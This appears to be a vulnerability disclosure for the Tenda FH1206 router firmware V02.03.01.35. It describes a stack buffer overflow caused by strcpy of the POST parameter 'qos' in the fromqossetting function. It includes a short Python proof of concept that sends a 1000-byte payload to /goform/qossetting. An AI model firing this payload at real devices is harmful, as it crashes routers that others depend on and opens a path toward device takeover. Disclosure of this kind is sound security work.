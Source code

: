 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromqossetting` function. This function accepts the `qos` parameter from a POST request. The statement `strcpy(v8, src);` leads to a buffer overflow. The user-supplied `qos` can exceed the capacity of the `v8` array, thus triggering this security vulnerability.

![image](https://github.com/user-attachments/assets/a51662f9-763f-47ff-8978-d8e88fc4f430)


## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/qossetting"
payload = b"a"*1000

data = {"qos": payload, "op":"delete"}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)

